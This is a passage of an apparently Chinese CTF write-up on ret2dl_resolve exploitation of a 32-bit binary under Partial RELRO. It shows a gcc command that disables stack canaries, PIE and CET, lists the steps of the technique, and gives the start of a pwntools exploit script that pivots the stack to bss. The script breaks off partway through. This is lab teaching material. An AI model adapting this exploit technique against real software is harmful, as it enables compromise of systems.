 ```bash
gcc -o bof -m32 -fno-stack-protector -z lazy -no-pie bof.c
```

> `-o` 指定输出文件名
>
> `-m32` 生成32位可执行文件
>
> `-fno-stack-protector` 关闭 canary 保护
>
> `-z lazy` RELRO 部分开启，即 Partial Relro
>
> `-no-pie` 关闭PIE保护
>
> `-fcf-protection=none` 关闭 Intel CET-IBT 机制，使函数跳转指令只出现在 .plt 段而不是一部分在 .plt.sec 段。
>
> 需要在 glibc < 2.34 下编译，否则没有 csu 通用 gadget。



### Partial RELRO 利用思路

（1）把栈迁移到 bss 段上

（2）手动调用 PLT[0]，触发 `_dl_runtime_resolve`

（3）伪造 **重定位表项偏移量** 使 reloc 定位到伪造的重定位表项（fake_reloc）

（4）伪造 **符号表项偏移索引** 使 dynsym 定位到伪造的符号表项（fake_sym）

（5）修改符号表项里的 **函数字符串偏移量** 使 dynstr 定位到伪造的函数名（fake_func）



#### Stage 1

payload1 先用 read 函数向 bss 段读入 payload2，再把栈迁移到 bss 段上。后续 payload1 都相同。

payload2 使用 write_plt 输出 `/bin/sh`

```python
#!/bin/python3
from pwn import *

elf = ELF('./pwn200')
offset = 0x6c+4
read_plt = elf.plt['read']
write_plt = elf.plt['write']

# 0x0804856c : pop esi ; pop edi ; pop ebp ; ret
ppp_ret = 0x0804856c
pop_ebp_ret = 0x08048453
leave_ret = 0x08048481

stack_size = 0x800
bss_addr = 0x804a020
base_stage = bss_addr + stack_size

p = process('./pwn200')
p.recvuntil('\n')
pause()
payload  = b'a'*offset
payload += p32(read_plt)  # read(0, base_stage, 100)
payload += p32(ppp_ret)   # 用于将栈上read参数清除
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret)  # 栈迁移
payload += p32(base_stage)
payload += p32(leave_ret)
```